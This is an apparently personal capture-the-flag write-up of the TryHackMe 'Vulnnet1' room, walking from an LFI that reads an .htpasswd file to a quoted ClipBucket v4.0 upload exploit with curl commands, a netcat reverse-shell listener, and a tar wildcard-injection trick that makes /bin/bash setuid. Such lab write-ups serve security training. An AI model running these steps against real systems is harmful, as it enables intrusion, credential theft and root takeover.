 ```yaml
---
title: THM Vulnnet1
author: hanhctf
date: 2023-04-06 22:22:22 +0700
categories: [Write-up, THM]
tags: [php]
toc: true
mermaid: true
---
```


# [**_Vulnnet1 room_**](https://tryhackme.com/room/vulnnet1)


## Nmap 
With nmap, see 2 ports open
![](/commons/THM/Vulnnet1/1.nmap.png)

## Analyz the webpage
***View the source of home page, we see 2 Js files.***  
Check domain vulnnet.thm in them. We found something interesting.
1. Subdomain http://broadcast.vulnnet.thm   
2. A path url `referer` `http://vulnnet.thm/index.php?referer=` ==> LFI   

![](/commons/THM/Vulnnet1/2.LFI-vuln.png)  

## Foothold
With dirsearch, we found some files.   
![](/commons/THM/Vulnnet1/3.dirsearch.png)

==> Find credential in `/etc/apache2/.htpasswd`
![](/commons/THM/Vulnnet1/4.htpasswd.png)

Crack hash with JTR   
![](/commons/THM/Vulnnet1/5.crack-hash.png)

With this credential of developers, we can access `http://broadcast.vulnnet.thm`  

webpage with title ClipBucket v4.0   
Quick research in exploit-DB ==> [Exploit](https://www.exploit-db.com/exploits/44250)   

```
2. Unauthenticated Arbitrary File Upload
Below is the cURL request to upload arbitrary files to the webserver with no
authentication required.

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/beats_uploader.php"

$ curl -F "file=@pfile.php" -F "plupload=1" -F "name=anyname.php"
"http://$HOST/actions/photo_uploader.php"

Furthermore, this vulnerability is also available to authenticated users with
basic privileges:

$ curl --cookie "[--SNIP--]" -F
"coverPhoto=@valid-image-with-appended-phpcode.php"
"http://$HOST/edit_account.php?mode=avatar_bg"   
```   

![](/commons/THM/Vulnnet1/6.file-upload.png)

In terminal, we listen with `nc -nlvp 9001`   
And browser http://broadcast.vulnnet.thm/actions/<file_directory>/<filename>.php   

![](/commons/THM/Vulnnet1/7.www-data.png)   


Upload `linpeas.sh` to target machine.  
Run `linpeas.sh`, we found an intersting backup file.  
![](/commons/THM/Vulnnet1/8.svr-man-backup.png)   

Download file to attack machine.   
With JRT --> credential of server-management   
![](/commons/THM/Vulnnet1/9.svr-man-cred.png)   


**Got user.txt**

## Privilege escalation  

Run `linpeas.sh`, we see a cronjob with root user  
![](/commons/THM/Vulnnet1/10.cronjob.png)  
![](/commons/THM/Vulnnet1/11.code-cronjob.png)  

THIS PROGRAM IS MAKING A BACKUP USING THE **TAR** COMMAND OF THE Documents FOLDER   
LETS CHECK GTFOBINS  

```shell
server-management@vulnnet:~/Documents$ echo "" > "--checkpoint-action=exec=sh pwn.sh"
server-management@vulnnet:~/Documents$ echo "" > --checkpoint=1
server-management@vulnnet:~/Documents$ echo "chmod +s /bin/bash" > pwn.sh  
```   

![](/commons/THM/Vulnnet1/12.pwn.png)  

**Got root.txt**








